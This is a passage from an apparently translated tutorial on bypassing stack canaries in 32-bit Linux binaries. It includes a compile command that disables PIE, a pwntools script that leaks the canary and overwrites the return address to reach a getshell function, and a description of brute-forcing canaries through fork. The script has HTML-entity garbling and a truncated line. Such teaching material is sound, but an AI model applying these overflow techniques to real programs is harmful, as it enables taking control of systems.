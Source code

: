 ```C
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln ();
    return 0;
}

```

Compile as 32bit program and disable PIE protection (NX, ASLR and Canary protection are invoked by default)

```bash
$ gcc -m32 -no-pie ex2.c -o ex2 
```

First print out the 4-digit Canary by overwriting the last `\x00` byte of Canary
After that, calculate the offset, fill Canary into the corresponding overflow position, and implement Ret into the getshell function.


```python
#!/usr/bin/env python
from pwn import *
context.binary = 'ex2'
#context.log_level = 'debug'
io = process (&#39;./ ex2&#39;)
get_shell = ELF("./ex2").sym["getshell"]
io.recvuntil (&quot;Hello Hacker!
# leak Canary
payload = "A"*100
io.sendline(payload)
io.recvuntil ( &quot;A&quot; * 100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))
# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)
io.recv ()
io.interactive ()
```

### one-by-one crack Canary

For Canary, although the Canary is different each time the same process restarts (the same as GS, GS is restarted), but the Canary of each thread in the same process is identical.
Also, there is a class that opens the child process interaction through the fork function, because the fork function directly copies the memory of the parent process, so the Canary of each child process created is the same. We can use this feature to completely blast Canary byte by byte.
In the famous offset2libc bypassing all protected linux64bit articles, the author is using this way to blast the Canary:
This is the Python code for blasting:

